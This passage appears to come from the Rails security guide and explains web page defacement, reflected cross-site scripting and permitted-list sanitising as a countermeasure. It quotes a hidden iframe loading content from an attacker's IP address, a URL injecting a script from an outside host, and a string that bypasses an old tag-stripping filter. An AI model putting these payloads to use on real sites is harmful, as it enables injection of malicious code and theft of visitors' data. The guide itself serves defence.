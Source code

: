 ##### Defacement

With web page defacement, an attacker can do a lot of things, for example, present false information or lure the victim to the attacker's website to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This `iframe` is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.

A more specialized attack could overlap the entire website or display a login form, which looks the same as the site's original, but transmits the username and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one in its place, which redirects to a fake website.

Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but is included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Countermeasures

_It is very important to filter malicious input, but it is also important to escape the output of the web application_.

Especially for XSS, it is important to do _permitted input filtering instead of restricted_. Permitted list filtering states the values allowed as opposed to the values not allowed. Restricted lists are never complete.

Imagine a restricted list deletes `"script"` from the user input. Now the attacker injects `"<scrscriptipt>"`, and after the filter, `"<script>"` remains. Earlier versions of Rails used a restricted list approach for the `strip_tags()`, `strip_links()`, and `sanitize()` methods. So this kind of injection was possible:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

This returned `"some<script>alert('hello')</script>"`, which makes an attack work. That's why a permitted list approach is better, using the updated Rails 2 method `sanitize()`:

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

This allows only the given tags and does a good job, even against all kinds of tricks and malformed tags.
